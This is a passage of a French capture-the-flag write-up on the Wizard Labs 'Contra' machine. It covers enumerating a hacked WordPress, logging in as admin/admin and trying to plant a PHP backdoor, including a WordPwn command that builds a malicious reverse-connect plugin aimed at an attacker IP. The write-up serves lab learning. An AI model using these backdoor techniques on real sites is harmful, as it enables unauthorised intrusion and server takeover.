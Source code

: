 Un dirbuster permet de découvrir rapidement un Wordpress à l'adresse */blog*. Ce dernier a visiblement été piraté :  

![Contra Wizard Labs CTF hacked wordpress](https://github.com/devl00p/blog/raw/master/images/wizard-labs/contra_hacked_wordpress.png)

Ma première réaction a été de lancé un WPscan sur ce *Wordpress 4.9.8*, ce qui ne m'a pas mené bien loin...  

On trouve toutefois que l'utilisateur *admin* a le mot de passe *admin*, ce qui laisse supposer une trajectoire toute définie d'exploitation qui consiste à éditer les fichiers PHP d'un thème présent pour y placer une backdoor PHP.  

Seulement voilà, on manque de permissions pour éditer le moindre fichier car l'indique le message en fin de page de l'éditeur :  

> You need to make this file writable before you can save your changes. See the Codex for more information.

Une solution de rechange est d'uploader un plugin Wordpress contenant une backdoor. Il y a un outil nommé [WordPwn](https://github.com/wetw0rk/malicious-wordpress-plugin) qui peut se charger de ça :  

```plain
$ python wordpwn.py 10.254.0.29 7777 N
[*] Checking if msfvenom installed
[+] msfvenom installed
[+] Generating plugin script
[+] Writing plugin script to file
[+] Generating payload To file
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of php/base64
php/base64 succeeded with size 1506 (iteration=0)
php/base64 chosen with final size 1506
Payload size: 1506 bytes

[+] Writing files to zip
[+] Cleaning up files
[+] General Execution Location: http://(target)/wp-content/plugins/malicous/
[+] General Upload Location: http://(target)/wp-admin/plugin-install.php?tab=upload
```

Mais pas plus de chances, cette fois c'est le dossier */wp/content/uploads* qui semble en lecture seule...  

Il y a bien [cette vulnérabilité qui pourrait toucher le Wordpress](https://blog.ripstech.com/2019/wordpress-image-remote-code-execution/) mais son exploitation semble assez capilotractée, d'ailleurs il n'existe pas d'exploit correspondant.  

Pour une difficulté de 5/10 ça semble assez improbable que ce soit le chemin attendu...  
